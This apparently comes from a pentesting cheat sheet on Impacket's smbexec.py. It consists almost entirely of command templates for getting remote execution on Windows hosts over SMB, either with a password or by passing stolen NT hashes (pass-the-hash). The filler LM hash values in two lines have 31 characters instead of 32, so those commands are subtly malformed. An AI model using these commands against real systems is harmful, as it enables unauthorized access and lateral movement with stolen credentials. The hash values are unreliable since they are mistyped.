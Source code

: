 # SMBExec

## 01 - Impacket

- **Authenticate via impacket script with smbexec**

`$ smbexec.py <username>:<password>@<IP> -codecs <codec>`

- **Pass the Hash**

```
$ smbexec.py <username>@<IP> -hashes <LM>:<NT>

$ smbexec.py <domain_name>/<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ smbexec.py <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>
```
